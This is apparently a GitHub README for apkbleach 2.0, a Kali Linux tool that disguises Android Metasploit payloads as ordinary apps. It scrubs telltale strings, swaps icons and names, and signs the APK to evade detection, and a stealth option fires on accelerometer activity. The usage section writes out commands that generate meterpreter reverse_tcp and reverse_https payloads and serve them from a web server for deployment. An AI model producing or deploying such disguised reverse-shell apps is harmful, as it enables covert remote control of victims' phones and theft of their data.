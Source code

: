 # apkbleach 2.0

**Update**
   Fixed custom icon injection bug and jarsigner installation bug! Shout out to @VioletChan on youtube for reporting the bug.

![Screen shot of sofware image](https://github.com/graylagx2/Images/blob/master/apkbleach2_final.png)

**About:**

This software was developed specifically for Kali-Linux to obfuscate android payloads in attempts to evade detection. This software also automates the process of changing the app icon, changing the app name, signing the apk, aligning the apk and installing or upgrading apktool.

**Youtube instructional video:**

   https://www.youtube.com/watch?v=tqgscJ93LFw
   
**New Deployment UI feature**

![Screen shot of deployment image](https://github.com/graylagx2/Images/blob/master/apkbleach-deployment-ui.png)

**Features:**

1) User interface for deployment of payloads

2) Line by line permissions editing. The software will go through each permission in the manifest and ask if you want to delete it.

3) Stealth option. This executes the payload off the devices accelerometer instead of on open. This option also allows you to choose how many sessions you want spawned of exploit.

4) Custom icon injection. This allows users to modify the app icon that appears on the home screen of a android device. You can choose from a icon apkbleach provides or you can supply your own. Apkbleach will do all the work for you.

5) Renames the application to the name you put chose as the ouput file

6) Scrubs the entire application of any mentions of the name "metasploit" , "stage" or "payload". There are a lot by the way. sending security testing with an app that contains the name metasploit is just funny :-)

7) Adds padnops to PAYLOAD

8) Signs apk with jarsigner. msfenom produces unsigned apps

9) Zip aligns apk

10) Apktool upgrade feature. If the software detects youre using apktool version 2.4.1-dirty which is Kali's package maintainers version it will ask if you want to replace it with the lates version frfom ibot peaches. This is a good idea because it conflicts with the msfvenom -x option and throws a version number error. Not to mention the problems it has given users in the past.

**Usage:**

    apkbleach -g android/meterpreter/reverse_https LHOST=Address LPORT=port -s 3 -i BLEACH_settings --edit-permissions -o /var/www/html/payload.apk
    
    apkbleach -g android/meterpreter/reverse_tcp LHOST=address LPORT=port -s 3 --edit-permissions --deploy-all

     apkbleach --list-payloads
 
     apkbleach --list-icons
 
     apkbleach --clear-cache
 

**optional arguments:**

      -h, --help            show this help message and exit
  
      -g [PAYLOAD] [LHOST] [LPORT]
                        Generates a payload
                        
      -s [number of sessions to spawn 1-5]
                        Executes payload on accelerometer activity instead of on open
                        
      -i [BLEACH_icon..] or [path/to/custom/icon]
                        Injects an icon
                        
      -o [output/path/for/file.apk]
                        Path to output apk
                        
      --edit-permissions    Enables permission editing in apk's manifest
      
      --deploy-all          Deploys each available icon as a payload with the apache2 server with a web interface
  
      --list-payloads       List available icons
  
      --list-icons          List available icons
  
      --clear-cache         Allows prompt whether to keep package maintainers version apktool
  
**Install instructions:**

After cloning or downloading the repository cd into the apkbleach directory and run run install.sh

    cd apkbleach
    bash install.sh
    
or

    cd apkbleach
    chmod +x install.sh
    ./install.sh
